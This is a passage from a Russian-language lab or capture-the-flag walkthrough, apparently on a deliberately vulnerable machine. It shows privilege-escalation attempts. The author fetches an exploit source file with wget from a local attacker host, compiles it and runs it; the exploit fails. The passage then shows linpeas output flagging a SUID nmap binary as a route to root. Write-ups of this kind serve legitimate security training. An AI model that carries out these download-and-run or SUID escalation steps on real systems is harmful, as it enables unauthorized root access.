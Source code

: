 Скачиваю эксплоит
![privesc](screenshots/05.privesc.png)

И эксплоит не отрабатывает
```bash
robot@linux:/tmp$ wget http://192.168.56.106:8888/priv.c
robot@linux:/tmp$ gcc priv.c -o priv
robot@linux:/tmp$ ./priv
spawning threads
mount #1
mount #2
child threads done
exploit failed
robot@linux:/tmp$
```

Пока листал вывод `linpeas`, увидел ещё один 95% вектор `SUID`
```bash
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                 
                      ╚════════════════════════════════════╝                                                       
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                    
strace Not Found                                                                                                   
...
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
```

